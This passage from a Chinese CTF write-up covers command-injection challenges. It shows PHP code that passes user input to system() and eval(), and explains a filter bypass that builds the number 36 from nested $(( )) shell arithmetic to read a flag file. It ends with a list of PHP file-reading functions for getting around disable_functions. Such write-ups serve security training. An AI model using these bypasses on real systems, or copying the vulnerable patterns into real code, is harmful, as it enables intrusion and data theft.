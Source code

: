 ## web57(*)

```bash
<?php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```
字母 数字过滤  .过滤 上面方法不能用了
所以我们只需要凑成36即可

```bash
$(())
```
可以在 (( )) 前面加上`$`符号获取 (( )) 命令的执行结果，也即获取整个表达式的值。以 c=`$`((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。
注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。

echo $(())会返回0

取反：
如果b=~a，那么a+b=-1
echo `$(())`会返回0

`$((~$(())))`的结果是-1

`$((  $((~$(())))  $((~$(())))  ))`的结果是-2，相当于-1-1

所以将他们放一起就默认是相加，那么只需要放37个`$((~$(())))`就能得到-37的结果，再对它进行取反，最终得到36

![](https://img-blog.csdnimg.cn/20210213221632133.png#pic_center)

---
## web58-65

```bash
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

接下来开始绕disable_functions了。
读文件的函数有这些：
```
 1.file_get_contents()

 2.highlight_file()

 3.show_source()

 4.fgets()

 5.file()

 6.readfile()
```